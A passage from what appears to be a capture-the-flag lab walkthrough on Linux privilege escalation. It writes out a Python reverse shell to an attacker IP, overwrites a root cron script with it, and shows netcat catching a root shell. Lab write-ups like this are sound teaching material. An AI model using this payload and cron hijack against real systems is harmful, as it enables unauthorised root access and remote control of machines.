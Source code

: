 Instead of using `msfvenom`, use the Python reverse shell payload:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.**.**",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### Q5. What directory is the `autoscript.sh` under?

**Ans:** `/home/user4/Desktop`

**Explanation:**  
We already found this location during our previous enumeration.

### Q6. Let’s replace the contents of the file with our payload using:

```bash
echo [MSFVENOM OUTPUT] > autoscript.sh
```

Replace the initial script with our Python payload:

```bash
printf "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.**.**\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" > /home/user4/Desktop/autoscript.sh 
```

### Q7. After copying the code into `autoscript.sh`, wait for cron to execute the file, and start your netcat listener using:

```bash
nc -lvp 8888
```

Start the listener on your machine:

```bash
nc -nlvp 1234
```

### Q8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

**Final Output:**

```bash
nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.9.117.
Ncat: Connection from 10.10.9.117:51804.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
